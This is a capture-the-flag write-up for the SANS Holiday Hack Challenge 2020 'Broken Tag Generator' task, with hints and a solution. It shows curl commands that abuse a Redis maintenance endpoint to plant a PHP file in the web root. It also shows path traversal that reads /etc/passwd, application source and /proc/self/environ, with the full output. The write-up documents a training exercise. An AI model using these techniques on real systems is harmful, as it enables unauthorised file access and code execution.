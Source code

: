 # Writeup for SANS Holiday Hack Challenge 2020 - 'Zat You, Santa Claus? featuring KringleCon 3: French Hens
# 8. Broken Tag Generator
## 8.0. Description
Help Noel Boetie fix the Tag Generator in the Wrapping Room. What value is in the environment variable GREETZ? Talk to Holly Evergreen in the kitchen for help with this.
## 8.1. Side Challenge - Redis Bug Hunt
This challenge revolves around an issue in redis maintenance mode allowing to create arbitrary files and potentially leading to RCE with the target of obtaining the source code of the application.  
I leveraged the feature to create a new php file which included the content of the actual `index.php` one:
```bash
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dir,%2Fvar%2Fwww%2Fhtml%2f"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dir' '/var/www/html/'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=config,set,dbfilename,index2.php"
Running: redis-cli --raw -a '<password censored>' 'config' 'set' 'dbfilename' 'index2.php'
OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=set,test,%3C%3Fphp%0A%24homepage%20%3D%20file_get_contents%28%27index.php%27%29%3B%0Aecho%20%24homepage%3B%0A%3F%3E"
OK
Running: redis-cli --raw -a '<password censored>' 'set' 'test' '<?php
$homepage = file_get_contents('\''index.php'\'');
echo $homepage;
?>'

OK
player@1be6e6576403:~$ curl "http://localhost/maintenance.php?cmd=save"
Running: redis-cli --raw -a '<password censored>' 'save'

OK
player@1be6e6576403:~$ curl http://localhost/index2.php --output -
REDIS0009�      redis-ver5.0.3�
�edis-bits�@�ctime�+��_used-mem¨
 aof-preamble��� test@D<?php

# We found the bug!!
#
#         \   /
#         .\-/.
#     /\ ()   ()
#       \/~---~\.-~^-.
# .-~^-./   |   \---.
#      {    |    }   \
#    .-~\   |   /~-.
#   /    \  A  /    \
#         \/ \/
# 

echo "Something is wrong with this page! Please use http://localhost/maintenance.php to see if you can figure out what's going on"
?>
example1The site is in maintenance modeexample2#We think there's a bug in index.php��Pƫ��ڪ
```

## 8.2. Hints
> **Endpoint Exploration** - Holly Evergreen: *“Is there an endpoint that will print arbitrary files?”*  
> **Content-Type Gotcha** - Holly Evergreen: *“If you're having trouble seeing the code, watch out for the Content-Type! Your browser might be trying to help (badly)!”*  
> **Error Page Message Disclosure** - Holly Evergreen: *“Can you figure out the path to the script? It's probably on error pages!”*  
> **Download File Mechanism** - Holly Evergreen: *“Once you know the path to the file, we need a way to download it!”*  
> **Source Code Retrieval** - Holly Evergreen: *“We might be able to find the problem if we can get source code!”*  
> **Redirect to Download** - Holly Evergreen: *“If you find a way to execute code blindly, I bet you can redirect to a file then download that file!”*  
> **Patience and Timing** - Holly Evergreen: *“Remember, the processing happens in the background so you might need to wait a bit after exploiting but before grabbing the output!”*  
> **Source Code Analysis** - Holly Evergreen: *“I'm sure there's a vulnerability in the source somewhere... surely Jack wouldn't leave their mark?”*  

## 8.3. Solution
Analyzing the JS source code I highlighted two interesting code lines: `img.attr('src', '/image?id=${id}'`); and `window.location = '/share?id=${res.id}'`;. Probing these URLs led to interesting results which made me have a pretty strong feeling of Path Traversal and how to exploit it. Further probing confirmed it thus I was able to obtain the source code of the application and the content of the `GREETZ` environment variable with value `JackFrostWasHere`.
```bash
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Is a directory @ io_fread - /tmp/test</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/share?id=test
<h1>Something went wrong!</h1>

<p>Error in /app/lib/app.rb: Route not found</p>
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../app/lib/app.rb --output tag-generator/app.rb
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  4886  100  4886    0     0   3485      0  0:00:01  0:00:01 --:--:--  3485

thedead@dellian:~/Desktop/repos/KringleCon3-temp$ curl https://tag-generator.kringlecastle.com/image?id=../proc/self/environ --output tag-generator/environ
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   399  100   399    0     0    233      0  0:00:01  0:00:01 --:--:--   233
thedead@dellian:~/Desktop/repos/KringleCon3-temp$ cat tag-generator/environ 
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app
```
## 8.4. Ciao Jack
Just wanted to say “[Hi](https://www.youtube.com/watch?v=0fz9-gqwThQ)!” 😁

---
# 9. ARP Shenanigans
# 10. Defeat Fingerprint Sensor
# 11a. Naughty/Nice List with Blockchain Investigation Part 1
# 11b. Naughty/Nice List with Blockchain Investigation Part 2

---
# 0. [thedead@asian:~$ whoami](../README.md)
# ?. 33.6 Kbps
# 1. Uncover Santa's Gift List
# 2. Investigate S3 Bucket
# 3. Point-of-Sale Password Recovery
# 4. Operate the Santavator
# 5. Open HID Lock
# 6. Splunk Challenge
# 7. Solve the Sleigh's CAN-D-BUS Problem